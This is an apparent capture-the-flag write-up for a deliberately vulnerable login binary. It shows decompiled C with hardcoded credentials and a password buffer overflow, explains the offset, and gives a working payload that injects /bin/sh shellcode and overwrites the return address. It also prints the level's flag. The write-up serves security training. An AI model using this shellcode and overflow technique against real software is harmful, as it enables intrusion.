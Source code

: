 # level00
## Protections

|Protection|Status|Explanation|
|----------|------|-----------|
|**RELRO**|Partial RELRO|Global Offset Table (GOT) is not fully protected. Vulnerable to GOT overwrite attacks.|
|**Stack Canary**|No canary found|Stack overflows are not detected. Return address can be overwritten freely.|
|**NX**|NX disabled|Stack is executable. Classic shellcode injection attacks are possible.|
|**PIE**|No PIE|Binary is loaded at a fixed address in memory. Easier to perform ROP as addresses are predictable.|
|**RPATH/RUNPATH**|None|No custom dynamic linker paths. No impact on typical exploitation.|

## Decompiled code
```C
// The decompiled code looked way worse than this so we humanized it.
#include <stdio.h>
#include <string.h>

char a_user_name[256];

int verify_user_name(void) {
    const char *correct_username = "dat_wil";
    if (strncmp(a_user_name, correct_username, strlen(correct_username)) == 0) {
        return 0;
    } else {
        return 1;
    }
}

int verify_user_pass(const char *input_password) {
    const char *correct_password = "admin";
    if (strncmp(input_password, correct_password, strlen(correct_password)) == 0) {
        return 0;
    } else {
        return 1;
    }
}

int main(void) {
    char password_input[64] = {0};
    int result;

    puts("********* ADMIN LOGIN PROMPT *********");
    printf("Enter Username: ");
    fgets(a_user_name, 256, stdin);
    a_user_name[strcspn(a_user_name, "\n")] = 0;

    result = verify_user_name();
    if (result == 0) {
        printf("Enter Password: ");
        fgets(password_input, 100, stdin);
        password_input[strcspn(password_input, "\n")] = 0;

        result = verify_user_pass(password_input);
        if (result == 0) {
            puts("Access granted.\n");
            return 0;
        } else {
            puts("nope, incorrect password...\n");
            return 1;
        }
    } else {
        puts("nope, incorrect username...\n");
        return 1;
    }
}
```

## Exploit
In the binary, we have 3 functions :
- `verify_user_name()`
- `verify_user_pass()`
- `main()`  
  
In the `main` function, we see that the `fgets` doesn't present a vulnerability so we need to go further in the program to find something. We input the correct username `dat_wil`.  
Then the second `fgets` is limited for a 100 byte string. However, our buffer `password_input` is 64 bytes long. We have a vulnerability here.  
Using a buffer overflow pattern generator we find that the offset is 80. We can start working on a payload now.  
Since NX is disabled, we aim to do a classic shell-code injection. We have a lot of space in the username variable so we will store the shell code after the username and then overflow the EIP to the address of the starting byte of the shell code with an overflow in the userpass variable.  
![level01](./level01.png)

### Payload
`(python -c 'print("dat_wil" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n" + "A" * 80 + "\x47\xa0\x04\x08")'; cat) | ./level01`
## Flag
`PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`